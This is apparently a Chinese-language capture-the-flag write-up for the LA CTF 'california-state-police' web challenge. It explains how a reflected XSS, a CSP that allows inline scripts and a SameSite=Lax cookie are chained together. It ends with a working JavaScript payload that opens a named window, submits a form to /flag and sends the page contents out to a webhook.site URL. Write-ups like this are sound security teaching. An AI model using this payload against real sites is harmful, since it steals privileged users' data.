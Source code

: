 Stop! You're under arrest for making suggestive 3 letter acronyms!

california-state-police.lac.tf

Admin Bot (note: the adminpw cookie is HttpOnly and SameSite=Lax)

**题目分析**

![](https://i.imgur.com/CLqzwwW.png)

cookie 中传入 adminpw 参数，值正确就可以获取 flag。

![](https://i.imgur.com/M3KwYUV.png)

上图未经任何过滤就把 id 参数对应的值回显到页面上，存在 XSS 漏洞。

但注意一下题目的 [CSP](https://www.cnblogs.com/mutudou/p/14373644.html) 策略

![](https://i.imgur.com/Jb7anMv.png)

默认是不允许加载任何来源的任意资源，但是可以执行内联的 JS 脚本。

如果没有这个 CSP 限制，那常规的操作肯定是让管理员访问 /flag 然后拿到网页的响应，之后向我们的 vps 发送一个携带 cookie 的请求。但是题目描述中已经明确地告诉我们管理员的 cookie 是 [HttpOnly](https://zhuanlan.zhihu.com/p/36197012) 的，这意味着在前端无法通过 JS 拿到 Cookie。

现在该怎么办？虽然可以执行内联的JS代码，但是不能直接获取cookie，并且不能加载其他任何域的资源。

不妨先看看题目描述的提示 [SameSite=Lax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 意味着什么（中英结合）：

![](https://i.imgur.com/E527Fyy.png)

上图告诉我们 Set-Cookie HTTP 响应标头的 SameSite 属性允许您声明您的 cookie 是否应限制在第一方或同一站点上下文中。

SameSite 属性接受三个值，这里说说第一个 `Lax` 是什么: Cookie 不会在正常的跨站点子请求（例如将图像或框架加载到第三方站点）上发送，而是在用户导航到原始站点时发送（即，在点击链接时）。

如果在最近的浏览器版本中未明确指定 SameSite，则这是默认的 cookie 值（请参阅浏览器兼容性中的“SameSite：默认为 Lax”功能）。

![](https://i.imgur.com/UNIDZAO.png)

感觉中文的更易于理解，它说我们可以通过顶级导航来发送 Cookie。

> 什么是顶级导航？在这篇文章：https://juejin.cn/post/7011005750143090695

> 如果对以上所说一知半解，推荐看看这篇：https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html

WP 的思路很简单，就是通过顶级导航转到存在 XSS 漏洞的页面并执行我们构造的 JS 代码（发送含有 flag 的页面内容给我们）

> 注意由于 default-src 'none' 使得我们不可直接访问 /flag，只能通过顶级导航。![](https://i.imgur.com/xD1qhWt.png)

```javascript
<form method="post" id="theForm" action="/flag" target='bruh'>
    <!-- target 表示提交表单后在哪里显示响应信息 -->
    <!-- Form body here -->
</form>

<script> 
    let w = window.open('','bruh');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= `https://webhook.site/bdec584e-7d0e-41af-9dec-84eec09374e5?c=${w.document.body.innerHTML}`
    },500);
</script>
```
